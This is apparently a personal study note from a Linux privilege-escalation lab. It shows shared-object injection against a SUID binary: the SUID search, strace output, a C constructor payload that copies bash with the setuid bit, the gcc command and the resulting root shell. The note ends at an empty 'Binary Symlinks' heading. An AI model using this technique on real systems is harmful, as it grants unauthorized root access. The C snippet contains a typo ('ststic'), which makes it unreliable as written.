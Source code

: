 
For basic info on how to find files with SUID or SGID is set, look [[Privilege Escalation#^257fb3|here]].

## Shared Object Injection

Another method we can exploit SUID files is by performing shared object injections. First we need to identify files that rely on shared objects for execution. We can do this using the `strace` tool.

```bash
TCM@debian:~$ find / -perm -04000 -type f -ls 2>/dev/null
809081   40 -rwsr-xr-x   1 root     root        37552 Feb 15  2011 /usr/bin/chsh
812578  172 -rwsr-xr-x   2 root     root       168136 Jan  5  2016 /usr/bin/sudo
810173   36 -rwsr-xr-x   1 root     root        32808 Feb 15  2011 /usr/bin/newgrp
812578  172 -rwsr-xr-x   2 root     root       168136 Jan  5  2016 /usr/bin/sudoedit
809080   44 -rwsr-xr-x   1 root     root        43280 Jun 18  2020 /usr/bin/passwd
809078   64 -rwsr-xr-x   1 root     root        60208 Feb 15  2011 /usr/bin/gpasswd
809077   40 -rwsr-xr-x   1 root     root        39856 Feb 15  2011 /usr/bin/chfn
816078   12 -rwsr-sr-x   1 root     staff        9861 May 14  2017 /usr/local/bin/suid-so
816762    8 -rwsr-sr-x   1 root     staff        6883 May 14  2017 /usr/local/bin/suid-env
816764    8 -rwsr-sr-x   1 root     staff        6899 May 14  2017 /usr/local/bin/suid-env2
815723  948 -rwsr-xr-x   1 root     root       963691 May 13  2017 /usr/sbin/exim-4.84-3
832517    8 -rwsr-xr-x   1 root     root         6776 Dec 19  2010 /usr/lib/eject/dmcrypt-get-device
832743  212 -rwsr-xr-x   1 root     root       212128 Apr  2  2014 /usr/lib/openssh/ssh-keysign
812623   12 -rwsr-xr-x   1 root     root        10592 Feb 15  2016 /usr/lib/pt_chown
473324   36 -rwsr-xr-x   1 root     root        36640 Oct 14  2010 /bin/ping6
473323   36 -rwsr-xr-x   1 root     root        34248 Oct 14  2010 /bin/ping
473292   84 -rwsr-xr-x   1 root     root        78616 Jan 25  2011 /bin/mount
473312   36 -rwsr-xr-x   1 root     root        34024 Feb 15  2011 /bin/su
473290   60 -rwsr-xr-x   1 root     root        53648 Jan 25  2011 /bin/umount
465223  100 -rwsr-xr-x   1 root     root        94992 Dec 13  2014 /sbin/mount.nfs
```

We can see that there are three files with both SUID and SGID set. Let's have a look at the `/usr/local/bin/suid-so` file first. When we execute the file, we get the following output.

```bash
TCM@debian:~$ /usr/local/bin/suid-so
Calculating something, please wait...
[=====================================================================>] 99 %
Done.
```

Since something is happening when the file ie being run, we can use `strace` to trace whats happening when it run. Since most of the output is printed to `stderr`, we need to direct it to `stdout` via `2>&1` for further analysis.

```bash
TCM@debian:~$ strace /usr/local/bin/suid-so 2>&1
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
TCM@debian:~$ strace /usr/local/bin/suid-so 2>/dev/null| grep directory
TCM@debian:~$ strace /usr/local/bin/suid-so
execve("/usr/local/bin/suid-so", ["/usr/local/bin/suid-so"], [/* 17 vars */]) = 0
brk(0)                                  = 0x713000
fcntl(0, F_GETFD)                       = 0
fcntl(1, F_GETFD)                       = 0
fcntl(2, F_GETFD)                       = 0
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7fc253e19000
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY)      = 3
fstat(3, {st_mode=S_IFREG|0644, st_size=13345, ...}) = 0
mmap(NULL, 13345, PROT_READ, MAP_PRIVATE, 3, 0) = 0x7fc253e15000
close(3)                                = 0
.
.
```

We see there are errors saying `No such file or directory`, which is what we are after. We can use `grep` to filter the output and see which files are accessed when the binary is run.

```bash
TCM@debian:~$ strace /usr/local/bin/suid-so 2>&1| grep -i -E "open|access|no such file"
access("/etc/suid-debug", F_OK)         = -1 ENOENT (No such file or directory)
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
access("/etc/ld.so.preload", R_OK)      = -1 ENOENT (No such file or directory)
open("/etc/ld.so.cache", O_RDONLY)      = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libdl.so.2", O_RDONLY)       = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/usr/lib/libstdc++.so.6", O_RDONLY) = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libm.so.6", O_RDONLY)        = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libgcc_s.so.1", O_RDONLY)    = 3
access("/etc/ld.so.nohwcap", F_OK)      = -1 ENOENT (No such file or directory)
open("/lib/libc.so.6", O_RDONLY)        = 3
open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)
```

The `-i` ignores the case and `-E` enables extended regex use so we can use the `|` operator for the `or` functionality.

The `/home/user/.config/libcalc.so` stands out from the rest since it seems to be a user own file. Since we can write to the `/home/user` directory, we can overwrite this file and replace it with a piece of code we want to be executed. 

```C
#include <stdio.h>
#include <stdlib.h>

ststic void inject() __attribute__((constructor));

void inject() {
        system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```

Next we need to compile it as a shared object using `GCC`.

```bash
TCM@debian:~/.config$ gcc -shared -fPIC -o libcalc.so libcalc.c 
```

Finally, when we execute the initial program we get a console as root.

```bash
TCM@debian:~/.config$ /usr/local/bin/suid-so 
Calculating something, please wait...
bash-4.1# id
uid=1000(TCM) gid=1000(user) euid=0(root) egid=50(staff) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),1000(user)
bash-4.1# whoami
root
```


## Binary Symlinks

